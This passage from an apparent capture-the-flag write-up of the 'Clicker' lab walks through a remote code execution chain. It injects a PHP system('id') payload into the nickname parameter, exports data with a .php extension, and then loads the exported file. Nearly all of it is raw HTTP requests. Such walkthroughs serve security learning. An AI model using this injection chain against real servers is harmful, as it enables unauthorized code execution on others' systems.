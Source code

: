- In the `save_game.php` script, we injected our payload into the `nickname` parameter. Our payload contained `PHP` code: `<%3fphp+system('id')%3b+%3f>`. This code would execute the `id` command on the server.

```
GET /save_game.php?clicks=1337&level=0&nickname=<%3fphp+system('id')%3b+%3f> HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=4rd8gdqkgrh2c651jngu7u082a
Upgrade-Insecure-Requests: 1

```

- Finally, we exported the data as an admin by sending a `POST` request to `export.php` with a `threshold` of `0` and the extension set to `php`.

```
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/admin.php
Cookie: PHPSESSID=ibm8uta898vpd03dq84eg8ubtu
Upgrade-Insecure-Requests: 1

threshold=0&extension=php
```

As a result, when we accessed the exported data file at `exports/top_players_mmldkglv.php`, we observed the execution of the PHP code. In the server's response, we could see that the **Remote Code Execution** (`RCE`) was triggered, and we obtained information about the server, including the user `www-data` and their groups, which signifies the successful exploitation of this vulnerability.

```
GET /exports/top_players_mmldkglv.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ibm8uta898vpd03dq84eg8ubtu
Upgrade-Insecure-Requests: 1

```
